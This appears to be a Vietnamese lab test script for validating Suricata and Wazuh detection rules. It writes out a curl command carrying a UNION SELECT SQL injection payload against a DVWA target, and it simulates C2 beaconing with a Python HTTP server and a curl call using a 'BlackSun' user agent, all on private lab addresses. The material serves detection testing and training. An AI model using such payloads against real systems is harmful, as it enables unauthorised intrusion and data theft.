


# Kịch bản 2: Khai thác Ứng dụng Web (Test Mảng 2 - Suricata)

*Hacker phát hiện cổng 80/443 đang mở và tiến hành ném payload chứa mã độc.*

1.  **Hành vi 1: Thử nghiệm tấn công SQL Injection**
    
    - **Lệnh Kali Linux:** 
        
        - ```bash
            curl -b "PHPSESSID=...; security=low" "http://172.16.10.128/dvwa/vulnerabilities/sqli/?id=1'%20UNION%20SELECT%20user(),version()%23&Submit=Submit"
            ```
            
    - **Kết quả kỳ vọng trên Wazuh:**
        
        - Kích hoạt Rule **100203** (SQL Injection Detection) do Suricata bóc tách thành công gói tin HTTP.
        - 
2.  **Hành vi 2: Mô phỏng hành vi C2 Beaconing (Máy chủ DMZ gọi về nhà)**
    
    - ### Bước 1: Bật máy chủ C2 giả lập trên Kali
        
        Bạn hãy sang máy Kali, mở một Terminal mới và chạy câu lệnh siêu tiện lợi này của Python để mở cổng 80:
        
        - ```
            sudo python3 -m http.server 80
            ```
            
    - &nbsp;
        
        ### Bước 2: Bắn lệnh gọi C2 từ máy nạn nhân (Windows)
        
        Quay lại máy Windows và chạy đúng lại lệnh mà bạn vừa gõ vào powershell/cmd:
        
        - ```
            curl.exe -A "BlackSun" http://192.168.164.128/
            ```
            
    - &nbsp;
        
        ### Bước 3: Kiểm tra kết quả
        
        Mở Wazuh Dashboard lên và kiểm tra xem Rule `100202` (Internal C2 Communication).
        
        - 